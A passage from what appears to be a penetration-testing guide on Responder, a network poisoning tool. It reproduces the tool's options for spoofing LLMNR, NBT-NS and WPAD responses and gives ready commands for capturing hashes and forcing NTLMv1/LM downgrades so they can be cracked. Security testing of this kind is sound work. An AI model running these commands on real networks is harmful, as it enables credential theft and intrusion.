 Options are the following :

```
--version             show program's version number and exit
-h, --help            show this help message and exit
-A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                    BROWSER, LLMNR requests without responding.
-I eth0, --interface=eth0
                    Network interface to use, you can use 'ALL' as a
                    wildcard for all interfaces
-i 10.0.0.21, --ip=10.0.0.21
                    Local IP to use (only for OSX)
-6 2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed, --externalip6=2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed
                    Poison all requests with another IPv6 address than
                    Responder's one.
-e 10.0.0.22, --externalip=10.0.0.22
                    Poison all requests with another IP address than
                    Responder's one.
-b, --basic           Return a Basic HTTP authentication. Default: NTLM
-d, --DHCP            Enable answers for DHCP broadcast requests. This
                    option will inject a WPAD server in the DHCP response.
                    Default: False
-D, --DHCP-DNS        This option will inject a DNS server in the DHCP
                    response, otherwise a WPAD server will be added.
                    Default: False
-w, --wpad            Start the WPAD rogue proxy server. Default value is
                    False
-u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                    Upstream HTTP proxy used by the rogue WPAD Proxy for
                    outgoing requests (format: host:port)
-F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                    retrieval. This may cause a login prompt. Default:
                    False
-P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                    authentication for the proxy. WPAD doesn't need to be
                    ON. This option is highly effective when combined with
                    -r. Default: False
--lm                  Force LM hashing downgrade for Windows XP/2003 and
                    earlier. Default: False
--disable-ess         Force ESS downgrade. Default: False
-v, --verbose         Increase verbosity.
```

To run default Responder behaviour you only have to execute:

```bash
responder -I <Iface> -Pv
```

An interesting technique is to use responder to downgrade the NTLM authentication when possible. This will allow to **capture NTLMv1 challenges and responses** instead of NTLMv2 that can be **easily cracked** [**following this guide**](../../windows-hardening/ntlm/#ntlmv1-attack)**.**

```bash
#Remember that in order to crack NTLMv1 you need to set Responder challenge to "1122334455667788"
responder -I <Iface> --lm --disable-ess #Downgrade NTLM authntication if possible and force ESS downgrade
```
